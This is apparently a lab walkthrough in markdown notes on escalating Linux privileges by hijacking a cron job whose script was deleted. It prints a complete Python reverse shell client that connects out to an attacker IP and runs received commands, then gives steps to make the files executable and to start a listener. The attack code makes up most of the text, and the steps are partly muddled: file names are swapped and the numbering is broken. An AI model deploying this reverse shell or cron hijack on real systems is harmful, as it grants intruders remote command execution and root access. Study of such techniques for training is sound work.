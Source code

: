 ```
```
* Crontab can sometimes lead to easy priviledge escalation vectors.
1. System admin needs to run script at regular intervals.
2. Creates a cron job to do this.
3. Script becomes obsolete and is deleted.
4. Cron job is not cleaned up.
   * Change management failure results in potential exploit.
   * `test.py` has been deleted but cron job still exists.
```
find /tmp -name test.py
```
* Cron refers to paths listed under `PATH` variable in `/etc/crontab` file if full script is not defined.
* Create script named `test1.py` in `/tmp` folder to be run by the cron job.
1. `nano /tmp/test1.py`
2. Enter reverse shell client code from [PYTHON REVERSE SHELL](https://medium.com/@rietesh/python-reverse-shell-hack-your-neighbours-552561336ca8).
```
import socket
import os
import subprocess

# set target IP and port
target_host = "10.10.234.130"
target_port = 6666

# create client TCP socket
# connect socket to target IP and port
client = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
client.connect((target_host,target_port))

# receive command in data object and decode back to string
# check if command is cd and use os.chdir to change directory
# directly open a process for other commands and give the decoded string
# pipe out stdout, stdin, and stderr
# bytes piped into output_bytes, converted into string and sent across connection
# connection closed when while loop breaks
while True:
    data = client.recv(1024)
    if data[:2].decode("utf-8") == 'cd':
        os.chdir(data[3:].decode("utf-8"))
    if len(data) > 0:
        cmd = subprocess.Popen(data[:], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output_bytes = cmd.stdout.read()
        output_str = str(output_bytes, "utf-8")
        client.send(str.encode(output_str + str(os.getcwd()) + '$'))
        #print(output_str)
client.close()
```
4. CTRL+X to save and exit.
* Create `test.py` cron job file to run reverse shell.
1. `nano /tmp/test1.py`.
2. Add code to execute `test`.py`.
```
python3 /tmp/test1.py
```
5. Make files executable.
```
chmod +x /tmp/test.py /tmp/test1.py
```
6. Create listener on attacking machine to catch connection.
   * Enter reverse shell server code from [PYTHON REVERSE SHELL](https://medium.com/@rietesh/python-reverse-shell-hack-your-neighbours-552561336ca8).
   * `nano ./Desktop/Python_Reverse_Shell_Server.py`.